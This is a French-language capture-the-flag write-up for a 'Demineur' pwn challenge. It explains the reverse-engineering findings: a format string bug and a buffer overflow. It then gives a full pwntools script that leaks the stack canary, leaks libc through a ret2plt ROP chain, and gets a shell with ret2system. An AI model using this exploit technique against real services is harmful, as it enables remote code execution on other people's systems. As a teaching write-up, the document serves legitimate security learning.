



# Demineur
## Description
Le challenge nous fourni un binaire, une libc et une addresse à laquelle nous connecter via netcat. En nous connectant, on se retrouve face à un jeu de démineur en CLI.
 



De plus, checksec nous indique la présence d'un canary, du bit NX et du full RELRO.



## Reverse

Les éléments importants à repérer lors de la rétro-ingénierie du binaire sont les suivants :

 - Lorsque nous choisissons la difficulté, il nous est possible de rentrer n'importe quelle chaîne de caractères.
 - L'affichage de la difficulté comporte un format string bug.
 - Il nous est possible d'overflow le buffer lorsque le programme nous demande si l'on est sûr de vouloir quitter le jeu.

## Le plan

Notre plan se déroulera en 4 étape :

1) Leak du canary grâce au format string bug.

2) Exploitation du buffer overflow avec une ropchain ret2plt, ret2main afin de leak le décalage appliqué par l'ASLR sur les librairies.

3) Calcul des addresses de `system` et `/bin/sh` à partir du leak.

4) Seconde exploitation du buffer overflow, cette fois-ci avec un ret2system.

```python
from pwn import *
import time

context.binary = "./resources/challenge"
elf = ELF("./resources/challenge")
libc = ELF("./resources/libc.so.6")

nc = remote("0.0.0.0", 1337) # Obviously for testing purpose

# Leaking canary using format string exploit
nc.recvuntil(b"[easy/medium/hard] :")
nc.sendline(b"%167$p")
nc.recvline()
nc.recvline()
nc.recvline()
canary = nc.recvline().strip()

log.success("Leaked value of canary : {}".format(hex(int(canary, 16))))

canary = p32(int(canary, 16))


# Leaking GOT address of puts using ret2plt

rop = ROP(elf)
rop.raw(canary*6)
rop.puts(elf.got["puts"])
rop.call(elf.sym["main"])

nc.recvuntil(b">>")
nc.sendline(b"3")
nc.recvuntil(b"Voulez-vous vraiment quitter Breizh deminage ? [oui/non]")
nc.sendline(rop.chain())
leak = nc.recvline()
print(leak)

leakedPuts = u32(leak[1:5])
libc.address = leakedPuts - libc.sym["puts"]

log.success("Libc base address: {}".format(hex(libc.address)))
time.sleep(5) # Waiting so the program can terminate operations

# Using ret2libc to get a shell
rop = ROP(elf)
rop.raw(canary*6)
rop.call(libc.sym["system"])
rop.call(libc.sym["exit"])
rop.raw(p32(next(libc.search(b"/bin/sh"))))

nc.recvuntil(b"[easy/medium/hard] :")
nc.sendline(b"hard")
nc.recvline()
nc.recvline()
nc.recvline()
nc.recvuntil(b">>")
nc.sendline(b"3")
nc.recvuntil(b"Voulez-vous vraiment quitter Breizh deminage ? [oui/non]")
nc.sendline(rop.chain())
nc.interactive()

```

